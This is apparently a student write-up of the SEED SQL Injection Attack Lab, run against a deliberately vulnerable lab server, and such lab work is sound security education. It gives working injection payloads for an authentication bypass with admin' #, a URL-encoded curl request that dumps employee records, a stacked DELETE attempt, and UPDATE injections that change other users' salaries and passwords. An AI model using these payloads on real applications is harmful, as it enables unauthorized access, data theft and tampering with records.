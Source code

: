 # SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

To print all the profile information of the employee Alice, we need to select
everything from the table credential, where the column 'Name' is equal to
'Alice'. This can be achieved with the following query:

```sql
SELECT * FROM credential WHERE Name='Alice';
```

![task1_1](task1_1.png)

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

To perform this attack, our strategy will be to set the name to admin, and
comment out the rest of the query so that the password never gets checked.
To do this, we enter in the name input field *admin' #*, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin' #' and Password='$hashed_pwd';
```

Which is equivalent to:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin';
```

Note: we use *#* instead of the traditional *--* to comment because, according
to the MySQL reference manual, the *--* comment "requires the second dash to be
followed by at least one whitespace or control character". Now lets test this
in the web page.

![task2_1](task2_1.png)

![task2_2](task2_2.png)

### Task 2.2: SQL Injection Attack from command line

Before encoding, the URL of our request should look like this:

```url
http://www.seed-server.com/unsafe_home.php?username=admin'#&Password=
```

For encoding, we just need to replace the *'* character with a %27 and the *#*
with %23. Executing the curl command:

```sh
$ curl http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password=´
(...)
<table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>
(...)
```

And we get as a response the HTML code, which contains the table with the
employee information.

### Task 2.3: Append a new SQL statement

We tried the following payload:

```sql
admin'; DELETE FROM credential WHERE name="Alice" #
```

![task2_3](task2_3.png)

But we get the following error message:

![task2_3b](task2_3b.png)

After looking at how MySQL queries work in php, we found that query() "sends a
unique query (multiple queries are not supported) to the currently active
database", so that explains why we get an error.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

To modify the salary, we tried the following payload:

```sql
Alice', salary=1000 WHERE name='Alice' #
```

![task3_1a](task3_1a.png)

And after checking out Alice's profile, we see that we successfuly changed her
salary to 1000.

![task3_1b](task3_1b.png)

### Task 3.2: Modify other people’s salary

To modify other people’s salary, we use a payload similar to the one used in
the last task, but replace the name with "Boby".

```sql
Alice', salary=1 WHERE name='Boby' #
```

![task3_2a](task3_2a.png)

After logging back in the admin's account, we see that salary of Boby is now
set to 1.

![task3_2b](task3_2b.png)

### Task 3.3: Modify other people’ password

We want to change Boby's password to "password123". To do this, we first need
to find the SHA1 hash of this string. We will use an online hasher for this.

![task3_3a](task3_3a.png)

Now, just need to replicate the last payload, but instead of changing the
salary, we must change the password to be equal to
"cbfdac6008f9cab4083784cbd1874f76618d2a97". Here is our payload:

```sql
Alice', password="cbfdac6008f9cab4083784cbd1874f76618d2a97" WHERE name='Boby' #
```

![task3_3b](task3_3b.png)

And sure enough, we are able to login to Boby's account using password123 as
the password.

![task3_3c](task3_3c.png)

![task3_3d](task3_3d.png)
